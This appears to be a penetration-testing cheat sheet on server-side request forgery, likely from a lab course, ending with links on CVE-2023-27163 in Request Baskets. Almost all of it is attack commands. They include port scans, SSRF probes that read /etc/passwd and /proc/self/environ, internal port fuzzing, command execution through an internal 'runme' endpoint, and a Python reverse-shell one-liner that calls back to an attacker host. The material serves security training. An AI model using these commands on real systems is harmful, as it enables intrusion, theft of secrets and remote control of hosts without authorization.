


____

## SSRF Exploitation Example

|**Command**|**Description**|
|---|---|
|`nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238`|Scanning the ports of the external target|
|`curl -i -s -L http://<TARGET IP>`|Interacting with the target and following redirects|
|`nc -lvnp 8080`|Starting a netcat listener to test for SSRF|
|`curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`|Testing for SSRF vulnerability|
|`python3 -m http.server 9090`|Starting the python web server|
|`sudo pip3 install twisted`|Installing the ftp server|
|`sudo python3 -m twisted ftp -p 21 -r .`|Starting the ftp server|
|`curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`|Retrieving a remote file through the target application (HTTP Schema)|
|`curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`|Retrieving a local file through the target application (File Schema)|
|`for port in {1..65535};do echo $port >> ports.txt;done`|Generating a wordlist of possible ports|
|`ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`|Fuzzing for ports on the internal interface|
|`curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`|Interacting with the internal interface on the discovered port|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`|Interacting with the internal application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`|Discovering web application listening in on localhost|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"`|Modifying the URL to bypass the error message|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -`|Requesting to disclose the /proc/self/environ file on the internal application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"`|Retrieving a local file through the target application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"`|Confirming remote code exeuction on the remote host|
|`sudo apt-get install jq`|Installing jq|
## Blind SSRF Exploitation Example

|**Command**|**Description**|
|---|---|
|`nc -lvnp 9090`|Starting a netcat listener|
|`echo """<B64 encoded response>""" \| base64 -d`|Decoding the base64 encoded response|
|`export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`|Reverse shell payload (to be URL encoaded twice)|

Server Side Request Forgery

# CVE-2023-27163

Requests baskets

https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7

https://github.com/entr0pie/CVE-2023-27163/tree/main?tab=readme-ov-file
